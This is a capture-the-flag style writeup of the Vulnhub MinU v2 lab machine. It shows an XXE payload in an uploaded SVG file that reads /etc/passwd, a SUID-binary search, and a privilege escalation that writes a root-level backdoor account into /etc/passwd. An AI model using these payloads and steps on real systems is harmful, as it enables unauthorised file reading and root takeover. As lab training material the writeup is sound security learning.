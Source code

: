 ```yaml
---
layout: post
title: Vulnhub - MinU:2 writeup
date: 2019-07-24 6:06
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/minu-v2,333/">MinU v2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/_8bitsec"> 8bitsec</a></h4>

## Nmap

![](images/minu/nmap.png)

Since only two ports are open let's just start with the `3306`

***

## HTTP

![](images/minu/website.png)

There was nothing in the source so I ran dirsearch on it.

```bash
➜ python dirsearch.py -f -r -R2 -u http://192.168.1.114:3306/ -e php,html,tar.gz,txt,bak,zip,gz
```

![](images/minu/dirsearch.png)

And on visiting the `/upload.html`

![](images/minu/upload.png)

We can upload any image to preview it and since it take only `.svg` we can easily exploit this to get LFI/RFI.

***
__Stupid tries__

First I was trying to get reverse shell with this vulnerability. I was able to exploit it to get me a JS shell meaning I was able to run command like `alert(1)` and they were popping up on the browser. But since we can't do anything with just JS I was stuck on it for quite sometime.

Thanks to [@4ndr34z](https://twitter.com/4ndr34z) for helping me with LFI

***

To exploit the LFI with XXE we can use the following payload

```xml
<!DOCTYPE svg [
<!ENTITY output SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
<xxe>&output;</xxe>
<rect width="300" height="100"
style="fill:rgb(0,0,255);stroke-width:1;stroke:rgb(0,0,0)" />
</svg>
```

When you upload that file you'll get the content of the `/etc/passwd` in the source of the page.

![](images/minu/passwd.png)

Since we are sure that it's LFI we can use burp to find some important files to include so we can read some information from them.

***

I was stuck here for hour because I didn't read the `/etc/passwd` file output properly. The users are using `/bin/ash` meaning we will have to find something related to that shell. I kept on looking for `.bashrc` or `.bash_history` 🤦‍♂️🤦‍♂️🤦‍♂️🤦‍♂️

***


If we look at `.ash_history` file we'll see something very juicy.

![](images/minu/ash-history.png)

`useradd -D bossdonttrackme -p superultrapass3`

We can login into `employee` account with the `superultrapass3` password.

***

## Privilege Escalation

I logged into the `employee` account via SSH

![](images/minu/ssh.png)

It's enumeration time but my normal enumeration script didn't worked due to change in syntax. So I manually started checking things, there was no `sudo` command in `ash` so no sudo right thing.

I then searched for SUIDs

```bash
find / -perm -u=s -type f 2>/dev/null
```

![](images/minu/suid.png)

Here we see that `micro` which is a text editor is setup as `SUID`. I first thought that I'll be able to run commands in it just like `vim` but it didn't worked then @DCUA7 suggest to edit the `/etc/passwd` file to add an entry.

So I ran the following command

```bash
$ cat /etc/passwd | micro
```

And then added the following entry

```
toor:sXuCKi7k3Xh/s:0:0::/root:/bin/ashh
```

__NOTE__: Notice the extra `h` in the end of that line, I added this because when I add `toor:sXuCKi7k3Xh/s:0:0::/root:/bin/ash` I got error saying I can't run `as` because there isn't any such file so I just thought that for some reason the last char is being ignored so I added an extra `h`.

After this you can `su toor` with `toor` as the password and you'll be `root`

![](images/minu/root-shell.png)

![](images/minu/root.png)

***

This is really really amazing machine. I wasted so many hours on this just because I made so many mistakes but I learned lot of new tricks in this one.

Thanks to [@_8bitsec](http://twitter/_8bitsec) for making such an awesome machine and thanks to [@4ndr34z](http://twitter/4ndr34z) and [@DCUA](http://twitter/DCUA7) for their help.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](http://twitter/mzfr) for more “Writeups”.
